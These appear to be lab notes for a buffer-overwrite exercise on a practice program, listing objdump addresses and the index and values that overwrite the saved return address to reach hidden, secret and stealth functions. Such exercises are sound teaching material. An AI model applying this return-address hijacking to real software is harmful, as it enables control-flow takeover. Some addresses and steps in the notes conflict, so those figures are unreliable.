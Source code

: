 

* recognize features of example 03
* identify values at buffer[0]..buffer[8]
* program has two stages: read indexes of buffer, overwrite indexes of buffer 
  - accepts values in dec/hex 
  - $ printf "%d" 0x08048661
  - watch exit code 
  - $ ./writer; echo $? 
  - the only way to exit with success (exit code 0) 
	is through the hidden/secret functions
* goal1: exit with success
* overwrite return address 
* call hidden_function
* goal2: exit with success, and get "awsome skills" message
* goal3: exit normally through main, but call stealth function stealthily
							

$ identify addresses with objdump 
	hidden_func  = 0x08048661 = 134514273
	secret_func  = 0x04048678 = 134514296
	stealth_func = 0x080492b4 = 134517428
* return address at buf[6] = 0x08049436 = 134517814
* call hidden_function 
  - overwrite with 134514273, harvest hurrays (goal1)
* call secret_function
  - overwrite with 134514296, harvest hurrays, but no awsome skills?
  - buf[6]=134514296 buf[8]=1111638594 buf[9]=1785358954 (goal2)
  why not buf[7] and buf[8]?
  * call stealth_function, prepare stack so that execution continues normally
  and returns to main 
  - buf[6]=134514296 buf[7]=134517814 buf[8]=1111638594 buf[9]=1785358954 (goal3)
  - at buf[7] we write old value from buf[6], that is, return point in main()  
